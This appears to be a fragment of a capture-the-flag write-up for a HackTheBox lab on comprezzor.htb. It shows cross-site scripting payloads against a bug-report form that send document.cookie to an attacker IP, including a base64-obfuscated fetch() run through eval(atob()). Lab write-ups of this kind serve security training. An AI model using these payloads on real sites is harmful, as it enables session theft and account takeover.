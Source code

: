 auth.comprezzor.htb
dashboard.comprezzor.htb
report.comprezzor.htb


- If we go to auth.comprezzor.htb - we can register and login

- We can then go to report.comprezzor.htb and we can see how bugs get escalated:

![image3](../resources/be82204364a748f7813b7351529ec747.png)

- We can report a bug and could be susceptible to XSS

- Tried the following XSS:

{% raw %}
`<img src="http://10.10.14.94/a?cookie=' + document.cookie + '"/>`
{% endraw %}


But didn't get the cookie back:


![image4](../resources/bafda0529f5446fa9ddbbc37c400749b.png)

- Obfuscate the payload (base64) and use eval(atob()):
  - Using the payload:  

`fetch("http://10.10.14.94/"+document.cookie);`

Full XSS evaluates to:

`"/><img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC45NC8iK2RvY3VtZW50LmNvb2tpZSk7'));"/>`



![image5](../resources/6fa851041c254681a6d5fc40997ecf1f.png)

